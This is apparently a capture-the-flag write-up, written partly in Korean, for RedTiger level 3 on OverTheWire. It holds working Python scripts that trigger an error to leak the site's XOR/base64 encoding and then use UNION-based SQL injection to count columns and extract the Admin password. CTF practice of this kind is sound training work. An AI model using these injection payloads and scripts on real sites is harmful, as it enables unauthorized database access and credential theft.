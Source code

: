 ================================================================================================================
[redtiger] level3
================================================================================================================

|

.. graphviz::

    digraph G {
        rankdir="LR";
        node[shape="point"];
        edge[arrowhead="none"]

        {
            rank="same";
            "client"[shape="plaintext"];
            "client" -> step0 -> step2 -> step4 -> step6 -> step8 -> step10 -> step12;
        }

        {
            rank="same";
            "server"[shape="plaintext"];
            "server" -> step1 -> step3 -> step5 -> step7 -> step9 -> step11 -> step13;
        }
        step0 -> step1[label="post_data: {usr[]=}",arrowhead="normal"];
        step3 -> step2[label="Error Page",arrowhead="normal"];
        step4 -> step5[label="post_data: {usr=' union select %s from level3_users-- }",arrowhead="normal"];
        step7 -> step6[label="Column Length",arrowhead="normal"];
        step8 -> step9[label="post_data: {usr=' union select 1,2,3,username,password,6,7 from level3_users where username='Admin' -- }",arrowhead="normal"];
        step11 -> step10[label="Data Extract",arrowhead="normal"];
    }

|

server -> DB 예측
================================================================================================================

- 테이블명: level3_users
- GET 파라미터: usr

.. code-block:: sql

    SELECT * FROM tb_name where
    usr=$_POST['usr']
    
|

Array Injection
================================================================================================================

- 배열 삽입

.. code-block:: python

    import requests

    requests.packages.urllib3.disable_warnings()

    url = "https://redtiger.labs.overthewire.org/level3.php"
    cookies = {
        "level3login":"securitycat_says_meow_and_likes_cheese"
    }

    # []
    payload = {
        "usr[]": ""
    }

    r = requests.post(url, cookies=cookies, params=payload, verify=False)

    print r.content


- 삽입시 에러 페이지

.. code-block:: html

    Warning: preg_match() expects parameter 2 to be string, 
    array given in /var/www/hackit/urlcrypt.inc on line 21

|

.. code-block:: php

    <?php
            
        function encrypt($str)
        {
            $cryptedstr = "";
            for ($i =0; $i < strlen($str); $i++)
            {
                $temp = ord(substr($str,$i,1)) ^ 192;
                
                while(strlen($temp)<3)
                {
                    $temp = "0".$temp;
                }
                $cryptedstr .= $temp. "";
            }
            return base64_encode($cryptedstr);
        }
      
        function decrypt ($str)
        {
            if(preg_match('%^[a-zA-Z0-9/+]*={0,2}$%',$str))
            {
                $str = base64_decode($str);
                if ($str != "" && $str != null && $str != false)
                {
                    $decStr = "";
                    
                    for ($i=0; $i < strlen($str); $i+=3)
                    {
                        $array[$i/3] = substr($str,$i,3);
                    }

                    foreach($array as $s)
                    {
                        $a = $s^192;
                        $decStr .= chr($a);
                    }
                    
                    return $decStr;
                }
                return false;
            }
            return false;
        }
    ?>

|

.. code-block:: python

    import base64

    def encrypt(_str):
        cryptedstr = ""
        for i in range(len(_str)):
            temp = ord(_str[i:i+1]) ^ 192
            temp = str(temp)
            while len(temp)<3:
                temp = "0" + temp
            cryptedstr += temp
        
        return base64.b64encode(cryptedstr)


|

union select
================================================================================================================

- 컬럼 개수 확인

.. code-block:: python

    import requests
    import base64

    requests.packages.urllib3.disable_warnings()

    def encrypt(_str):
        cryptedstr = ""
        for i in range(len(_str)):
            temp = ord(_str[i:i+1]) ^ 192
            temp = str(temp)
            while len(temp)<3:
                temp = "0" + temp
            cryptedstr += temp
        
        return base64.b64encode(cryptedstr)

    url = "https://redtiger.labs.overthewire.org/level3.php"
    cookies = {
        "level3login":"securitycat_says_meow_and_likes_cheese"
    }

    n = 0
    bef_ret = ''
    for l in range(20):
        params = {
            "usr": encrypt("' union select %s from level3_users-- " % str(n))
        }
        print "' union select %s from level3_users-- " % str(n)
        n = str(n) + "," + str(l+1)
        r = requests.post(url, cookies=cookies, params=params, verify=False)
        if bef_ret!=r.content and bef_ret!='':
            print r.content

        bef_ret = r.content


|

union select
================================================================================================================

- 데이터 추출

.. code-block:: python

    import requests
    import base64

    requests.packages.urllib3.disable_warnings()

    def encrypt(_str):
        cryptedstr = ""
        for i in range(len(_str)):
            temp = ord(_str[i:i+1]) ^ 192
            temp = str(temp)
            while len(temp)<3:
                temp = "0" + temp
            cryptedstr += temp
        
        return base64.b64encode(cryptedstr)

    url = "https://redtiger.labs.overthewire.org/level3.php"
    cookies = {
        "level3login":"securitycat_says_meow_and_likes_cheese"
    }


    params = {
        "usr": encrypt("' union select 1,2,3,username,password,6,7 from level3_users where username='Admin' -- ")
    }

    r = requests.post(url, cookies=cookies, params=params, verify=False)
    print r.content
